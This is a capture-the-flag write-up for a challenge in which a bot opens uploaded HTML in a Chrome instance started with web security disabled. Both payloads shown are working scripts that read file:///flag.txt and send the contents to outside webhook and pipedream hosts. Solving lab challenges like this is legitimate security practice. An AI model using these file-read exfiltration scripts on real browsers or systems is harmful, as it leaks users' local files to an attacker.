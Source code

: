 I heard you like flags, so I launched Chrome with a lot of flags so you can get your flag!
The flag is in /flag.txt, and the bot will visit the HTML file you uploaded!

![Alt text](image-1.png)


We upload a js script that makes a request to a webhook with the flag. This is called xhr:

```html
<script>

    window.onload = function() {

x=new XMLHttpRequest;

x.onload=function(){fetch('https://webhook.site/f01debc3-c5e8-4a9f-ab8f-2189a1656cae?i=' + btoa(this.responseText))};

x.open("GET","file:///flag.txt");x.send();

    }

</script>

```

We can request the local file: `file:///flag.txt` because it has the chrome Flag `--disable-web-security` disables CORS.

Another payload: 

```html
<script>fetch("file:///flag.txt").then((c) => c.text()).then((c) => window.location = ("https://enujhdkm7k82m.x.pipedream.net/?" + c)).finally(console.log("Nothing"))</script>
```

![Alt text](image.png)